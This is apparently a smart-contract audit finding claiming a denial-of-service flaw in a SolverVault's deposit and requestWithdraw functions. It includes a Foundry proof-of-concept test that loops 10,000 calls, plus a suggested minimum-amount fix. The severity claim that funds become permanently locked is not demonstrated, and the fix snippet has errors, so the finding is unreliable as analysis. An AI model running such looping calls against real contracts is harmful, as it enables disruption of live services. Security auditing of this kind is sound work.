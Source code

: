 Shiny Blood Guppy

high

# `SolverVault`: DOS Attack when user call `requestWithdraw` / `deposit` methods

## Summary
There is no protection of `deposit` and `requestWithdraw` when user sending a large amount requests , thus cause DOS(Denial of Service) attack .

## Vulnerability Detail
One user can call thousands of deposit and requestWithdraw, with no limit .

I write to POC to test one user's request in 10000 times
https://gist.github.com/libaice/b59cce2c5c6a7acf2f0f109850badf3e#file-solvervaulttest-t-sol-L55-L74
```solidity
 function testDOSWithdraw() public {
        address Alice = makeAddr("Alice");
        vm.startPrank(owner);
        mock_usdc.mint(Alice, 10000000000);
        vm.stopPrank();

        vm.startPrank(Alice, Alice);
        // approve vault to spend 1 usdc
        mock_usdc.approve(address(s_vault), 10000000000000);
        s_token.approve(address(s_vault), 1000000000000000);

        for (uint256 i = 0; i < 10000; i++) {
            s_vault.deposit(1000000);
        }

        for (uint256 i = 0; i < 10000; i++) {
            s_vault.requestWithdraw(1, Alice);
        }
        vm.stopPrank();
    }

```


## Impact
The vault will be fully unfunctional ,  and funds will be locked, There will be no recover to this DoS.

A malicious user can tigger `requestWithdraw` or `desposit` large amounts at very low cost.



## Code Snippet
https://github.com/sherlock-audit/2023-12-symm-io/blob/main/solver-vaults/contracts/SolverVaults.sol#L158-L168

https://github.com/sherlock-audit/2023-12-symm-io/blob/main/solver-vaults/contracts/SolverVaults.sol#L201-L210

```solidity
function deposit(uint256 amount) external whenNotPaused {
        require(
            currentDeposit + amount <= depositLimit,
            "SolverVault: Deposit limit reached"
        );
        IERC20(collateralTokenAddress).safeTransferFrom(
            msg.sender,
            address(this),
            amount
        );
```

```solidity
 function requestWithdraw(
        uint256 amount,
        address receiver
    ) external whenNotPaused {
        require(
            SolverVaultToken(solverVaultTokenAddress).balanceOf(msg.sender) >=
                amount,
            "SolverVault: Insufficient token balance"
        );
        SolverVaultToken(solverVaultTokenAddress).burnFrom(msg.sender, amount);
```


## Tool used

Manual Review, Foundry Test

## Recommendation
Add lowest doposit amount and requestWithdraw amount limitation .
```solidity
+ require(amount > 1e18, "SolverVault: Not enoungh deposit amount");
+ require(amount > 1e18, "SolverVault: Not enoungh withdraw amount")
```
